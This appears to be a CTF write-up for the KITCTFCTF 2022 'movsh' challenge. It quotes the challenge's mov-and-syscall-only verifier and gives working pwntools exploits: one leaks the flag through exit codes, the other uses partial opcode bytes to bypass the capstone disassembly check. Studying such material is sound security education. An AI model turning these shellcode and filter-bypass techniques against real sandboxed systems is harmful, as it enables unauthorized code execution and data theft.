

## movsh

movsh was a shellcoding challenge from  KITCTFCTF 2022<br>

the shellcode was read with a python script,<br>
this script was launched with socat listening on port 1338<br>

*here it is:*

```python
from capstone import *
import subprocess
import tempfile
import signal


MAX_SHELLCODE_LEN = 250

md = Cs(CS_ARCH_X86, CS_MODE_64)


def handler(signum, frame):
    raise OSError("Wakeup")


def verify_shellcode(shellcode):
    # bypassing this filter is not intended
    # however if you come up with a bypass feel free to use it
    syscall_count = 0
    for i in md.disasm(shellcode, 0x0):
        if i.mnemonic != "mov" and i.mnemonic != "syscall":
            print("Invalid instruction: ")
            print(f"{hex(i.address)}:\t{i.mnemonic}\t{i.op_str}")
            exit(0)
        elif i.mnemonic == "syscall":
            if syscall_count < 2:
                syscall_count += 1
            else:
                print(f"Syscall limit reached @ {hex(i.address)}")
                exit(0)
        else:
            pass

def execute(shellcode):
    with tempfile.NamedTemporaryFile() as tmp:
        tmp.write(shellcode)
        tmp.seek(0)
        try:
            print(subprocess.check_output(f"./shellcode_executor {tmp.name}", shell=True))
        except Exception as e:
            print(e)
            
def main():
    signal.signal(signal.SIGALRM, handler)
    signal.alarm(60)
    print(f"Please provide the shellcode in hex format ({MAX_SHELLCODE_LEN} bytes at most)")
    shellcode_hex = input("> ")[:MAX_SHELLCODE_LEN].strip().encode().lower()
    
    try:
        shellcode_hex = bytes(list(filter(lambda c: chr(c) in "0123456789abcdef", shellcode_hex)))
        shellcode = bytes.fromhex(shellcode_hex.decode())
        verify_shellcode(shellcode)

        # exit properly
        shellcode += b"\xb8\x3c\x00\x00\x00\x0f\x05"  # mov eax, 0x3c; syscall;
        execute(shellcode)
    except:
        print("Invalid input")


if __name__ == "__main__":
    main()
```

so this script check the passed hexadecimal shellcode for its size,
then it disassemble it with capstone, and verify that every instructions of shellcode is a `mov` or a `syscall`<br>

and limit the number of syscall to 2, which is not enough for an open, read, write syscall to dump the flag..

and yes..a seccomp is in place too in the shellcode executor binary, that only allows `open`, `read` , `write` , `exit` syscalls...

last but not least,

we can see that the script will add this little piece of exit code to our shellcode:<br>

  > `shellcode += b"\xb8\x3c\x00\x00\x00\x0f\x05"  # mov eax, 0x3c; syscall;`<br>

when all the conditions passed, the script will execute shellcode with the binary `shellcode_executor`<br>

it will set up a seccomp that only allows `open`, `read`, `write` ,`exit` syscalls<br>

then it will copy it in a mmap zone, that will be set as Read and Execute only (no writing, so no self modifying code)<br>

then it will jump to our shellcode (ouf!)<br>

### intended way

when doing experiments with the provided docker, we can see that the shellcode executor will return us the exit code, that is the rdi register when reaching `exit`<br>

```bash
Command './shellcode_executor /tmp/tmpfkdhv465' returned non-zero exit status 139.
```

that is the intended way to resolve this challenge,

you open the `flag.txt`file, read it in memory (on stack for example),
then you put first char in rdi register, it will be leaked by exit code when exiting..

you restart with second chars, third, etc..

and like that you will leak the flag without write, as you can see:



here is the exploit for the intended way.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


host, port = "kitctf.me", "1338"

flag = ''

for i in range(46):
  p = remote(host,port)
  shellc = asm('''
  // open
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],eax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall

  // read
  mov rdi,rax
  mov rsi,rsp
  mov edx,0x200
  mov eax,0
  syscall

  mov rdi,[rsi+%d]	/* leak flag byte with exit code */
  ''' % i)
  sla('> ', binascii.hexlify(shellc))
  flag += chr(int(rcu('exit status ', '.'),10))
  print(flag)
  p.close()
```

### unintended way

There is also an unintended way to resolve this challenge.

if we use a shellcode like this:

```assembly
 // open 'flag.txt'
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],rax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall
  // read flag onto stack
  mov rdi,rax
  mov rdx,rsp
  mov dx,0
  mov rsi,rdx
  mov edx,0x200
  mov eax,0
  syscall
  mov rdx,rax

  mov eax,1
  mov edi,0
  .byte 0xc6,0x86
```

the last bytes `0xc6`, `0x86` will change the `mov eax,0x3c` instruction that is added at the end of our shellcode, to a `mov byte ptr[rsi+0x3cb8],0x00` instruction<br>

```bash
pwn asm -c amd64 'mov byte ptr[rsi+0x3cb8],0x00'
c686b83c000000
```

it will "erased" the `mov eax, 0x3c` instruction next, that will be included with our opcodes..

and it will permit us to use the last syscall (the exit one added), to call `write` and dump the flag in only one shot..

it looks like this trick bypass the capstone verification process,

probably because the `0xc6`, `0x86` opcodes are not a complete instruction opcode encoding, and it will not be disassembled by capstone..

here is the exploit for the unintended:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'


# shortcuts
def sla(delim,line): return p.sendlineafter(delim,line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

host, port = "kitctf.me", "1338"

shellc = asm('''
  mov eax,0
  mov ecx, 0x67616C66
  mov [rsp],ecx
  mov ecx, 0x7478742E
  mov [rsp+4],ecx
  mov [rsp+8],rax
  mov rdi,rsp
  mov rsi,rax
  mov al,2
  syscall

  mov rdi,rax
  mov rdx,rsp
  mov dx,0
  mov rsi,rdx
  mov edx,0x200
  mov eax,0
  syscall
  mov rdx,rax

  mov eax,1
  mov edi,0
  .byte 0xc6,0x86
''')

if args.DOCKER:
  p = remote('127.0.0.1',1338)
else:
  p = remote(host,port)

# send shellcode encoded in hex
sla('> ', binascii.hexlify(shellc))

p.interactive()
```

and that's all :)

*nobodyisnobody still pwning things..*
